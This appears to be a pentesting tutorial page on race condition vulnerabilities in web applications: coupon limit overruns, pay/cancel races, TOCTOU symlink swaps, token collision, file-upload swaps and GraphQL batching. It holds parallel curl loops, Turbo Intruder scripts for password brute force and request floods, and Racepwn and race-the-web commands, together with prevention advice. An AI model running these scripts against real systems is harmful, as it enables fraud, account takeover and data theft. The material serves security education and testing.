

Race Conditions #
Description #
A Race Condition occurs when a system’s behavior is dependent on the sequence or timing of uncontrollable events. In web applications, this usually happens when multiple concurrent requests attempt to access or modify the same shared resource (like a database record or a session variable) simultaneously, leading to unintended logic flaws.
Types of Race Conditions #
Limit Overrun Race Conditions #
The most common type. An attacker exceeds a hard limit set by the application (e.g., using a single-use discount code five times or withdrawing more money than is in an account) by triggering requests faster than the server can update the state.
Example: #
- Intended Logic
defapply_coupon(user,coupon_code):
coupon=get_coupon(coupon_code)
ifcoupon.used==False:
apply_discount(user)
coupon.used=True
save(coupon)
- Coupon can only be used once
- After use →
used = True - The attacker sends multiple requests at the same time:
# Example using parallel requests in bash
for iin {1..10};do
curl-X POST https://target.com/apply-coupon=asd-asd-asd &
done
wait
- Coupon used multiple times
- Limit completely bypassed
Multi-Endpoint Race Conditions: #
Occurs when an application transitions through a state machine (e.g., Pending -> Validated -> Completed). An attacker targets the window between two different endpoints to disrupt the logic flow.
Example #
- The application flow ⇒ Pending → Paid → Shipped → Cancel
- Endpoint
/pay
def pay_order(order_id):
order = get_order(order_id)
if order.status == "Pending":
process_payment()
order.status = "Paid"
save(order)
- Endpoint
/cancel
def cancel_order(order_id):
order = get_order(order_id)
if order.status == "Pending":
order.status = "Cancelled"
refund_if_needed()
save(order)
- The attacker sends both the requests at the same time
curl -X POST https://target.com/pay -d "order_id=123" &
curl -X POST https://target.com/cancel -d "order_id=123" &
wait
- As a result the payment is processed and the refund is also processed
- The attacker gets the product and the service for free
- It happens because both the endpoints trusts the same condition
if order.status == "Pending"
- But there is no synchronization between endpoints.
Time-of-Check to Time-of-Use (TOCTOU): #
A specific sub-class where the application checks a condition (e.g., “Does the file exist?”) and acts on it (“Delete the file”), but the state changes between the check and the action.
Example #
- The demo application logic
import os
defdelete_file(path):
ifos.path.exists(path): # Time of Check
os.remove(path) # Time of Use
- Between:
[CHECK: file exists] → [USE: delete file]
-
There is a time gap
-
Attacker creates a normal file:
/tmp/user_file.txt -
Application checks:
os.path.exists("/tmp/user_file.txt") → True -
Before deletion happens, attacker swaps the file:
rm /tmp/user_file.txt
ln -s /etc/passwd /tmp/user_file.txt
- Application continues:
os.remove("/tmp/user_file.txt")
- The app deletes:
/etc/passwd
- Because the app assumes:
State at CHECK == State at USE
- But attacker changes it in between.
Attack Surfaces #
- Finance Related Functionalities
- Credits
- Withdrawals
- Currency Conversions
- E-commerce Sites Functionalities
- Discount codes
- Gift cards
- Limited Stock Items
- Account Actions
- Password resets ⇒ Requesting multiple tokens
- Email changes and verification
- Account registration ⇒ Duplicate usernames
- Voting/Rating Systems
- Bypassing “one vote per user” restrictions.
- File Management ⇒Temporary file creation and processing.
Exploitation and Bypassing Defenses #
To exploit these, we must minimize network jitter (the variance in request arrival times).
How to Exploit #
Using HTTP/2, we can send multiple requests over a single TCP connection, often within the same packet, ensuring they reach the server logic at virtually the same nanosecond.
- Capture and Grouping
- Capture the target request (e.g., the “Redeem Coupon” or “Withdraw” request) in Burp Proxy.
- Send the request to Repeater (
Ctrl + R). - In Repeater, click the + icon next to the request tab and select Create tab group.
- Select the request you just sent and add it to the group (you can duplicate the request 10–20 times within this group).
- Configure the Synchronization
- Look at the Send button. By default, it says “Send.” Click the drop-down arrow next to it.
- Select “Send group in parallel (last-byte sync).”
- HTTP/1.1: Burp will send all but the last byte of each request, wait for a moment, and then send the final bytes together.
- HTTP/2: If the server supports HTTP/2, Burp will use Single-Packet Attack logic, where it attempts to wrap all requests into a single TCP packet using multiplexing.
- Execution and Analysis
- Click Send Group.
- Analyze the Response columns (specifically the “Time” and “Status” columns):
- Failed Race: All requests return the same error (e.g., “Code already used”) except for the very first one.
- Successful Race: You see multiple
200 OKor “Success” messages for the same action. - The “Jitter” Check: Look at the “Received” time. In a successful last-byte sync, the gap between the first and last response should be mere milliseconds.
Exploiting Limit Overrun race Conditions #
- The attacker has to send more than one request at almost same time
- He has to send the requests in the race window which is often of a few milli-seconds
- So that the database will take two simultaneous requests as valid and you can apply the coupon more than once.

- Here in the image, the 2 requests are generated simultaneously.
- So to exploit you have to focus on two things
- Identify a single-use or rate-limited endpoint that has some kind of security impact or other useful purpose.
- Issue multiple requests to this endpoint in quick succession to see if you can overrun this limit.
- By using Burp Suite Repeater you can easily send the requests in parallel
Bypassing Rate Limiting #
- The user can use Race Condition flaws to bypass the rate limit
- Sending a group of 20 login POST requests (single packet attack), observing that the application is validating the credentials for a user
- One can create the number of request equal to the number of passwords to try ⇒ creating a request group ⇒ send a single packet attack
- Or one can use Turbo Intruder
- It is a burp extension to send all of the requests at once in parallel
- Install this extension from Bapp store first
- Right Click on a Repeater request → Extension → Turbo Intruder → Send to Turbo Intruder
- Here you have to select a python script for attack
- Generally the last byte synchronization for HTTP 1 is not supported by this tool
- Select the
race single packet attackand modify the python code as your needs - By default the code is good enough for
Limit overrun Race Condition Attacks - For password brute force attacks you have to add the password word-list as shown in code
def queueRequests(target, wordlists):
# as the target supports HTTP/2, use engine=Engine.BURP2 and concurrentConnections=1 for a single-packet attack
engine = RequestEngine(endpoint=target.endpoint,
concurrentConnections=1,
engine=Engine.BURP2
)
# assign the list of candidate passwords from your clipboard
#passwords = wordlists.clipboard -> You can use this then you have to copy the passwords and it will take the pasword from your clipboard directly
password = open('/path/to/wordlist/race.txt', 'r')
# queue a login request using each password from the wordlist
# the 'gate' argument withholds the final part of each request until engine.openGate() is invoked
for i in password:
engine.queue(target.req, i, gate='1')
# Use %s as the value of password in the POST request, then it will brute force each of the password
# once every request has been queued
# invoke engine.openGate() to send all requests in the given gate simultaneously
engine.openGate('1')
def handleResponse(req, interesting):
table.add(req)
Exploiting Multiple Endpoint Race Conditions #
-
Different application trigger multiple actions after we hit a single GET or POST request.
-
The feature like Add to Cart ⇒ Make Payment ⇒ Order confirmed
-
The internal workflow looks like this
-
The race window is the payment validation
-
When the application is validating the payment one can add other items also into the cart, after the payment validation it will send a basket confirmed request, that will also confirmed the other items in the cart that where added later
-
First set a request to add an item to the cart which you can purchase
-
Then the send the purchase request
-
Repeat this two to three times
-
Add the item to the cart that is not affordable
-
Next set the purchase request
-
Repeat the first steps again
Token Collision Attack #
Token Collision via Predictable Seeding occurs when an application uses a non-random timestamp to generate security tokens, such as password resets. By using high-precision timing to synchronize two requests, an attacker can force the server to issue identical tokens for both their account and a victim’s, leading to a full account takeover.
- If a password reset token is generated using a formula like:
token = md5(timestamp + username)an attacker can’t do much. But if the formula is simply:token = sha256(timestamp)then any two requests processed in the same microsecond will result in the exact same token. - The admin’s email is
admin@company.com. User email isattacker@evil.com.
- Prepare the Requests: Prepare two password reset requests.
- Request A:
email=admin@company.com - Request B:
email=attacker@evil.com
- Request A:
- Execute Synchronization: Use the Single-Packet Attack (HTTP/2) to send both requests to the server so they arrive and are processed by the backend at the same internal CPU clock cycle.
- The Collision: The server processes Request A, sees the time is
1711100000.123456, and generatesToken_XYZ. It sends this to the Admin. - The Mirror: Simultaneously, the server processes Request B. It sees the same time
1711100000.123456and generates the sameToken_XYZ. It sends this to you. - The Takeover: You check your inbox, get
Token_XYZ, and instead of using it for your own account, you append it to the admin’s reset URL. Since the token matches what was stored for the admin, you can now set their password.
File upload TOCTOU: File upload bypasses #
- Imagine a website that allows image uploads.
Normal Flow
- You upload:
cat.jpg - Server stores:
/tmp/file_77 - Scanner checks it → Safe
- Then server moves it to:
/public/uploads/cat.jpg - Everything is fine.
Vulnerable Flow
- Suppose the app uses predictable temp names or reuses upload IDs.
- Attacker does upload harmless image:
cat.jpg - Stored as:
/tmp/file_77 - Scanner begins checking it.
- During Scan, Before the move happens, attacker quickly triggers another action that replaces:
/tmp/file_77with:malicious.php - Now scanner already approved the old harmless image
- Server later moves the new swapped file
- Result:
/public/uploads/malicious.php- If the server executes PHP files, that could become serious.
GraphQL Race Conditions #
Concurrent Mutations #
-
By inspecting the Graphql Introspection query one can find out the mutation query
-
Example
mutation createAdminAction($input: AdminActionInput!) { createAdminAction(input: $input) { id status createdBy } } -
One can use this query to create admin functionalities as this to download the sensitive security logs
mutation {
createAdminAction(input: {
actionType: "exportSensitiveLogs",
userId: "all"
}) {
id
status
createdBy
}
}
- When it is sent once it will export a single file
- But by using Turbo Intruder one can send the mutation query as floods
def queueRequests(target, wordlists):
engine = RequestEngine(endpoint=target.endpoint,
concurrentConnections=5,
requestsPerConnection=100,
pipeline=False)
for i in range(20):
engine.queue(target.req, target.baseInput)
- It will extract more than one file that will reveal a lots of information
Batched Mutations #
- A shopping app has a GraphQL mutation:
redeemPoints(points: 100)
Normal flow
- User has 100 points
- Redeeming 100 points gives a ₹500 voucher
- After redemption, points become 0
Normal Single Request
- User sends:
mutation {
redeemPoints(points:100)
}
- Backend:
Current points = 100
Enough points ?
Subtract 100
Create voucher
- Result
Points = 0
1 voucher created
Batched Mutation Request
- Now user sends one GraphQL request containing aliases:
mutation {
first: redeemPoints(points:100)
second: redeemPoints(points:100)
}
Vulnerable Backend Behavior
- Suppose backend resolves both mutations nearly simultaneously.
- Mutation
first
Reads
points = 100
- Mutation
second
Also reads:
points = 100
Both think redemption is allowed.
Then both execute:
- subtract points
- create voucher
Points = 0 or -100
2 vouchers created
- User had enough points for one voucher, but received two.
Framework-Specific Scenarios #
- Node.js: Despite being single-threaded, asynchronous
awaitcalls create “yield points.” If shared state is modified across these points, race conditions occur. - Python (Django/Flask): While the GIL (Global Interpreter Lock) prevents true CPU parallelism for threads, it does not prevent logic races during I/O-bound operations (like database queries).
- Java (Spring): Misusing “Singleton” scoped beans to store user-specific data is a classic recipe for race-condition disasters.
Detection Techniques #
Manual: Using Burp Suite Repeater. #
- Group 20+ identical requests.
- Set the “Send” mode to “Send group in parallel (last-byte sync).”
Automated: Turbo Intruder #
- Utilizing the
gate()method to hold requests until they are all ready to be fired. - Observe “outlier” responses: If 19 requests return
403 Forbiddenbut 1 returns200 OK, you’ve won the race.
Impact #
- Financial Loss
- Infinite money glitches
- Unauthorized discounts.
- Account Takeover (ATO)
- Subverting password reset MFA logic.
- Data Corruption
- Inconsistent database states.
- Privilege Escalation
- Gaining administrative rights by racing a “Join Group” and “Promote User” request.
Prevention Techniques #
- Atomic Database Operations: Use
UPDATE table SET balance = balance - 10 WHERE id = 1 AND balance >= 10instead of “Select, then Update.” - Database Locking: Use pessimistic locking (
SELECT ... FOR UPDATE) to lock the row until the transaction is complete. - Idempotency Keys: Require a unique client-side generated key for sensitive operations; the server rejects any subsequent requests with the same key.
- Strict State Machines: Use session-based locks to ensure a user can only have one active transition at a time.
Tools #
Burp Suite Repeater #
Use Proxy in Burp Suite:
- Perform any action normally (purchase, redeem coupon, transfer money, etc.)
- Intercept the request
- Send it to Repeater
- Inside Repeater, you’ll see the raw HTTP request.
Example:
POST /redeem HTTP/1.1
Host: target.com
Cookie: session=abc123
Content-Type: application/json
{"coupon":"FREE100"}
Create several identical tabs:
- Right click request tab
- Duplicate tab
- Make 5–20 copies
- Each tab = one concurrent request.
- Modern versions of Burp Suite Repeater support sending grouped requests.
- Select multiple repeater tabs
- Choose Send group in parallel / Send all tabs simultaneously
- This fires requests nearly at the same moment.
- Observe Responses
- Look for: Successful duplicates
Racepwn #
- Installation
docker build -t racepwn .
docker run -it racepwn bash
- Usage
- Set up the configuration file
[
{
"race": {
// Setting race parameters
"type": "paralell", // race mode
"delay_time_usec": 10000, // time delay between two request parts
"last_chunk_size": 10 // last request chunck size
},
"raw": {
"host": "tcp://localhost:8080", // hostname and port
"ssl": false, // use ssl flag
"race_param": [
{
// race data parameters
"data": "GET / HTTP/1.1\r\nHost: example.com\r\n\r\n", // raw HTTP request
"count": 100 // packets count
}
]
}
}
]
- Launch the tool
racepwn < config.json
Race-The-Web #
- Race-the-Web: CLI tool for testing race conditions.
-
Installation
go install github.com/swarley7/race-the-web@latest -
Simple Scan
race-the-web -u "https://example.com/api/redeem" -m POST -p "coupon=DISCOUNT10" -n 50 -c 10 -
-u: The target URL. -
-m: The HTTP method (POST, GET, etc.). -
-p: The POST body/parameters (if applicable). -
-n: Total number of requests to send (e.g., 50). -
-c: Number of concurrent workers (how many “threads” to use).
-
Turbo Intruder #
- It is a Burp Suite Extension which one can download form the Bapp Store
- Send to Turbo: Right-click your request in the Proxy or Repeater and select Extensions -> Turbo Intruder -> Send to Turbo Intruder.
- The Python Script: You will see a Python window. To perform a race condition, use a “Gate” (this synchronizes the threads).
Copy/Paste this Race Logic:
def queueRequests(target, wordlists):
engine = RequestEngine(endpoint=target.endpoint,
concurrentConnections=30,
requestsPerConnection=1,
pipeline=False
)
# Queue 30 requests and assign them to a 'gate'
for i in range(30):
engine.queue(target.req, gate='race_gate')
# This 'opens' the gate, firing all queued requests at once
engine.openGate('race_gate')
def handleResponse(req, interesting):
table.add(req)
- Attack: Click Attack. A table will pop up.
- Sort by “Time”: If the “Time” (milliseconds) for all requests is nearly identical, your synchronization worked perfectly. If you see multiple successful status codes (e.g.,
200 OK), the race condition is confirmed.
Good to Read #
- https://portswigger.net/research/smashing-the-state-machine

- https://www.yeswehack.com/learn-bug-bounty/ultimate-guide-race-condition-vulnerabilities
- https://book.hacktricks.xyz/pentesting-web/race-condition
- https://hackerone.com/reports/157996#:~:text=Coupons hackerone,times%2C and stacking savings added
- https://www.drupal.org/project/drupal/issues/3367493?source=post_page—–c5f233e32b7f—————————————#:~:text=Race,reuse an already used token
- https://medium.com/@keizobugbounty/race-condition-authentication-bypass-leads-to-full-account-takeover-6b5c9bc0a54d
References #
- https://fdzdev.medium.com/guide-to-identifying-and-exploiting-toctou-race-conditions-in-web-applications-c5f233e32b7f
- https://github.com/reddelexc/hackerone-reports/blob/master/tops_by_bug_type/TOPRACECONDITION.md
- PortSwigger Academy: Race Conditions
- https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/10-Business_Logic_Testing/01-Test_Business_Logic_Data_Validation
- https://medium.com/@iski/race-to-root-how-a-graphql-race-condition-let-me-execute-admin-actions-twice-7e7aa010a52a